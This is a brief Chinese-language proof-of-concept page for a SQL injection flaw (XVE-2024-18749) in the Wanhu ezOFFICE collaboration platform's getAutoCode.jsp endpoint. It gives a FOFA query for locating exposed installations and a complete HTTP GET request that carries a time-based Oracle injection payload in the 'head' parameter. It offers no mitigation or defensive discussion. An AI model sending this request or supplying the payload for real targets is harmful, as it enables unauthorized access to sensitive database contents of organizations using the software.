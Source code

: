 # 万户ezOFFICE协同管理平台getAutoCode存在SQL注入漏洞(XVE-2024-18749)

万户ezOFFICE协同管理平台 `/defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp`接口处存在sql注入漏洞，攻击者可获取数据库中敏感信息

## fofa

```yaml
app="万户网络-ezOFFICE"
```


## poc

```yaml
GET /defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp;.js?pageId=1&head=2%27+AND+6205%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2898%29%7C%7CCHR%2866%29%7C%7CCHR%2890%29%7C%7CCHR%28108%29%2C5%29--+YJdO&field=field_name&tabName=tfield HTTP/1.1
Host:
```

